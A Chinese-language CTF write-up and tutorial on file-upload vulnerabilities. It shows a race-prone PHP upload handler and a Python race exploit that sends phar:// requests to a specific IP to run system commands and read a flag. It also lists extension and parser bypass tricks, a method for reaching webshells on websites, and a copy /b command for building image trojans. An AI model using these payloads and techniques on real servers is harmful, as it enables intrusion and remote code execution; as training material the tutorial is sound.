try{ | |
if($name!=="") | |
{ | |
$name1=substr($name,-4); | |
if(($name1!==".gif") and ($name1!==".jpg")) | |
{ | |
echo "hehe"; | |
echo "<script language=javascript>alert('不允许的文件类型！');history.go(-1)</script>"; | |
exit; | |
} | |
if($type!=="image/jpeg"&&$type!=="image/gif") | |
{ | |
echo mime_content_type($tmpName); | |
echo "<script language=javascript>alert('不允许的文件类型！');history.go(-1)</script>"; | |
exit; | |
} | |
if(is_uploaded_file($tmpName)){ | |
$time=time(); | |
$rootpath='uploads/'.$time.$name1; | |
if(!move_uploaded_file($tmpName,$rootpath)){ | |
echo "<script language='JavaScript'>alert('文件移动失败!');window.location='index.php?page=submit'</script>"; | |
exit; | |
} | |
else{ | |
sleep(5); | |
if ($type=='image/jpeg') | |
{ | |
$im = @imagecreatefromjpeg($rootpath); | |
if(!$im){ | |
$im = imagecreatetruecolor(150, 30); | |
$bg = imagecolorallocate($im, 255, 255, 255); | |
$text_color = imagecolorallocate($im, 0, 0, 255); | |
imagefilledrectangle($im, 0, 0, 150, 30, $bg); | |
imagestring($im, 3, 5, 5, "Error loading image", $text_color); | |
} else { | |
$time=time(); | |
$new_rootpath='uploads/'.$time.$name1; | |
imagejpeg($im,$new_rootpath); | |
} | |
} | |
else if ($type=='image/gif') | |
{ | |
$im = @imagecreatefromgif($rootpath); | |
if(!$im){ | |
$im = imagecreatetruecolor(150, 30); | |
$bg = imagecolorallocate($im, 255, 255, 255); | |
$text_color = imagecolorallocate($im, 0, 0, 255); | |
imagefilledrectangle($im, 0, 0, 150, 30, $bg); | |
imagestring($im, 3, 5, 5, "Error loading image", $text_color); | |
} else { | |
$time=time(); | |
$new_rootpath='uploads/'.$time.$name1; | |
imagegif($im,$new_rootpath); | |
} | |
} | |
unlink($rootpath); | |
} | |
} | |
echo "图片ID：".$time; | |
} | |
} | |
catch(Exception $e) | |
{ | |
echo "ERROR"; | |
} | |
// | |
?> | |
</html> |
首先是验证上传的文件是否为图片格式，如果上传了正确的图片，imagecreatefromjpeg () 返回图像资源，文件名更换为新的时间戳，用新的文件路径 newrootpath 输 出 图 片 ， 最 后 删 除 原文件 unlink (new_rootpath) 输出图片，最后删除原文件 unlink; 如果上传了不正确的图片，不会更换新的文件路径，最后还要删除源文件 unlink ($rootpath); 上传过程中存在一个延时函数 sleep (5)，所以上传的文件即使验证不成功也有 5 秒钟的时间存在。
python 的 payload。
import requests | |
import time | |
id = int(time.time()) | |
s=requests.session() | |
data0={'v':"phpinfo();",} | |
data1={ | |
'v':"system('ls');" | |
} | |
data2={ | |
'v':"system('cat xxxxxxxxxasdasf_flag.php');" | |
} | |
while 1: | |
for i in range(id-50,id+50): | |
url = 'http://202.112.51.184:9005/index.php?page=phar://./uploads/' + str(i) + '.jpg/v' | |
t=s.post(url,data=data1).content | |
print i | |
if 'flag' in t: | |
print t | |
break |
# 其它方式 — 绕过
# 原理
部分程序员的思维不严谨，并使用逻辑不完善的上传文件合法性检测手段，导致可以找到方式绕过其检测方式。
# 绕过方法
1. 后缀名大小写绕过 用于只将小写的脚本后缀名(如php)过滤掉的场合；
例如:将Burpsuite截获的数据包中的文件名【evil.php】改为【evil.Php】
2. 双写后缀名绕过 用于只将文件后缀名过滤掉的场合，例如"php"字符串过滤的；
例如:上传时将Burpsuite截获的数据包中文件名【evil.php】改为【evil.pphphp】，那么过滤了第一个"php"字符串"后，
开头的’p’和结尾的’hp’就组合又形成了【php】。
3. 特殊后缀名绕过 用于检测文件合法性的脚本有问题的场合；
例如:将Burpsuite截获的数据包中【evil.php】名字改为【evil.php6】，或加个空格改为【evil.php 】等。
# 常见 web server 组合
x.asp | |
windows server + asp + access + IIS | |
x.aspx | |
windows server + aspx + sql server + IIS | |
x.php | |
Linux + apache + php + mysql | |
linux + ngix + php + mysql | |
x.jsp x.jspx | |
Linux + apache tomcat + jsp + mysql/sql server/oracle | |
windows server + apache tomcat + jsp + mysql/sql server/oracle |
# 文件上传检测流程
# 脑图 【by zksmile】

# 流程
寻找上传点网站前台的上传点一般有头像上传、附件上传、证件认证上传。如果通过 SQL 注入或者其它一些技术手段得到网站后台权限，一般在网站更新页面的地方会存在上传点。也可以通过敏感目录或文件扫描工具扫到一些开源编辑器的测试上传页面等等。
找到上传点之后，先上传一张正常的图片测试该上传点时候可用。
上传一张正常的图片，抓包修改文件后缀名为对应网站脚本语言。
该操作可以绕过前端检测、MIME 检测、文件内容检测，可以检测出网站是否对上传文件进行了文件后缀名的检测。
如果上传成功表示没有对文件后缀进行检测，可以进一步上传图片马，抓包修改文件后缀为对应网站脚本语言即可获取 webshell.
如果上传失败表示对文件名后缀进行了检测，需要进一步判断是黑名单检测还是白名单检测。上传一张正常的图片，在它后缀随便添加几个字符进行上传。
eg: "1jpgaaaaa" 该后缀的文件既不在黑名单之内也不在白名单之内，如果文件上传成功代表是黑名单检测，如果上传失败代表是白名单检测。黑名单检测绕过
- 文件名大小写绕过
- 特殊文件名绕过
后缀加上：- ::$DATA（目标环境在 Windows 下）
- 空格和点 (.)，或空格和点的组合（目标环境在 Windows 下）
碰到过滤文件名的 - 双写文件名 pphphp
- 0x00 截断绕过
- .htaccess 文件攻击
- php 文件包含漏洞
- Apache 解析漏洞
- Nginx 解析漏洞
白名单检测绕过
- 0x00 截断绕过
- 是否暴露保存路径，保存路径截断，或修改
- php 文件包含漏洞
- IIS 解析漏洞
- Nginx 解析漏洞
图片马制作
copy 1.png/b + payload.* 2.png | |
/A 表示 ASCII 文本文件。 | |
/B 表示二进制文件。 |